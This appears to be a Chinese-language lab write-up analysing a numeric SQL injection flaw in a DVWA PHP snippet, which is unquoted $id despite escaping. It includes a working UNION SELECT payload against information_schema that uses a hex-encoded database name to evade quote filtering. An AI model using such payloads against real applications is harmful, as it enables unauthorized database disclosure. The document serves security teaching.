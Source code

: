##### **安全漏洞分析**

###### **1. 未正确过滤数字型输入**

- **代码片段**：
    
    <PHP>
    
    ```
    $query  = "SELECT first_name, last_name FROM users WHERE user_id = $id;";
    ```
    
- **问题**：
    - 虽然使用 `mysqli_real_escape_string` 转义了输入，但 `$id` 在 SQL 查询中 **未用引号包裹**（例如 `WHERE user_id = '$id'`），导致输入被当作数字处理。
    - 攻击者可利用 **数字型 SQL 注入**，绕过转义直接注入恶意代码。

###### **2. 漏洞验证**

- **攻击示例**： 假设用户提交 `id=1 UNION SELECT 1,table_name FROM information_schema.tables WHERE table_schema=0x64767761#`：
    
    <SQL>
    
    ```
    SELECT first_name, last_name FROM users WHERE user_id = 1 UNION SELECT 1,table_name FROM information_schema.tables WHERE table_schema=0x64767761#;
    ```
    
    - `0x64767761` 是 `dvwa` 的十六进制编码，用于绕过引号过滤。
    - 由于 `$id` 未包裹引号，注入的 `UNION` 语句会被执行。

